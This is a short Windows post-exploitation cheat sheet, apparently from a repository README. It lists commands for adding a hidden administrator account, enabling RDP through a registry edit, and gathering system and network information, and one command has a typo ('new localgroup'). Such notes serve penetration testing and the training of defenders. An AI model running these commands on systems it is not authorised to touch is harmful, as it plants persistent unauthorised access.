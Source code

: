 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `new localgroup administrators [username] /add`
## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.
1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)

